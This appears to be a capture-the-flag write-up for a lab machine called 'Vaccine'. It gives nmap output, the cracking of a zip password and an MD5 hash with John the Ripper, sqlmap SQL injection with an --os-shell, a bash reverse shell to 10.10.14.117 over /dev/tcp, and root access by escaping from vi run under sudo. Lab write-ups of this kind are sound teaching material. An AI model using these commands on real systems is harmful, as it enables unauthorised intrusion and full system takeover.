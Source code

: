 # Vaccine

## Information gathering

### Nmap
```bash
# Nmap 7.91 scan initiated Fri Aug 27 14:55:12 2021 as: nmap -T4 -p 21,22,80 -sC -sV -oA nmap/scan 10.10.10.46
Nmap scan report for 10.10.10.46 (10.10.10.46)
Host is up (0.30s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 27 14:55:32 2021 -- 1 IP address (1 host up) scanned in 20.25 seconds
```

### Enumeration

1. Login to ftp with credentials from previous box `ftpuser:mc@F1l3ZilL4`
2. Download backup.zip file
3. Crack the password with johntheripper:
	- zip2john backup.zip > hash.txt
	- john --wordlist=/usr/share/wordlists/rockyou.txt
	- Pass: 741852963

4. index.php file shows user: admin and md5:2cb42f8734ea607eefed3b70af13bbd3

	- `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt md5.txt`
	- Pass:qwerty789
5. Login to site and see that the search field could be vulnerable to SQLi
6. run `sqlmap -u http://10.10.10.46/dashboard.php?search=Elixir --cookie="PHPSESSID=k34ags0ti3lofrj01amq5me2f5"`

### Exploitation

8. Then discover that we can pass `--os-shell` to the command above: `sqlmap -u http://10.10.10.46/dashboard.php?search=Elixir --cookie="PHPSESSID=k34ags0ti3lofrj01amq5me2f5" --os-shell`
9. Start nc listener `nc -lvnp 1234` 
10. Start a reverse bash shell `bash -c 'bash -i >& /dev/tcp/10.10.14.117/1234 0>&1'`
11. Spawn a tty shell: `SHELL=/bin/bash script -q /dev/null`
12. Go through dashboard.php file and discover pass: P@s5w0rd!
13. Run `sudo -l`
14. Discover `/bin/vi /etc/postgresql/11/main/pg_hba.conf` can be run as root
15. Run `:shell`
16. We are root, `more /root/root.txt`




